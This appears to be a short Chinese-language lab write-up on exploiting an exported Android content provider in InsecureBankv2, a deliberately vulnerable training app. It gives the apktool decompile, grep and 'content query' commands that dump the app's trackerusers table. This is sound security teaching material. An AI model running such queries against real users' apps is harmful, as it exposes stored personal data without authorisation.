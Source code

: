 # Exploiting Android Content Provider

### 1. 实验过程

- **表 URI 定位**

    - 使用 apktool 反编译 `InsecureBankv2.apk`

        ```
        C:> apktool d InsecureBankv2.apk
        ```

    - 在 `AndroidManifest.xml` 中找到 ContentProvider 声明

        ![img](../img/0x05-content-provider.PNG)

    - 在反编译 Project 下通过搜索 `TrackUserContentProvider` 查找表 URI

        ```
        $ grep 'TrackUserContentProvider' -R .
        ```

        ![img](../img/0x05-search-uri.PNG)

        ![img](../img/0x05-code-uri.PNG)

    - 在 shell 里快乐查表

        ```
        # content query --uri content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers
        ```

        ![img](../img/0x05-result.PNG)

### 2. 参考资料

- [内容提供程序基础知识 | Android Developers](https://developer.android.com/guide/topics/providers/content-provider-basics#ContentURIs)
